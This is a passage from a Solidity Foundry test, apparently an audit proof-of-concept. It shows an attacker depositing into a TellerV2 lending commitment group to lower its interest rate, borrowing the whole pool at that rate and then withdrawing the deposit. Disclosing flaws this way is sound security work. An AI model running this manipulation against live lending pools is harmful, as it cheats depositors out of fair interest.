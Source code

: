 ```solidity
        user,
        0,
        2 days
    );
    vm.stopPrank();

    principalAmount = 500e18;
    deal(address(DAI), attacker, principalAmount);

    // attacker deposits principal, takes a loan and withdraws principal
    // getting a much better interest rate

    vm.startPrank(attacker);

    // add principal to lender to get shares
    // if the line below is commented, interest rate would be 400 instead of 266
    DAI.approve(address(lender), principalAmount);
    shares = lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    assertEq(lender.getMinInterestRate(), 266);

    // borrow the principal
    collateralAmount = 1e18;
    loanAmount = principalAmount;
    deal(address(WETH), attacker, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        loanAmount,
        collateralAmount,
        0,
        address(WETH),
        attacker,
        lender.getMinInterestRate(),
        2 days
    );

    // attacker withdraws the DAI deposit
    // poolSharesToken are burned incorrectly before calculating exchange rate
    // so this must be fixed or exchange rate will be 1
    vm.mockCall(
        address(lender.poolSharesToken()), 
        abi.encodeWithSignature("burn(address,uint256)", attacker, shares),
        ""
    );
    lender.burnSharesToWithdrawEarnings(shares, attacker);

    // all principal was withdrawn for loans but attacker got a decent interest rate
    assertEq(lender.getPrincipalAmountAvailableToBorrow(), 0);

    vm.stopPrank();
}
```
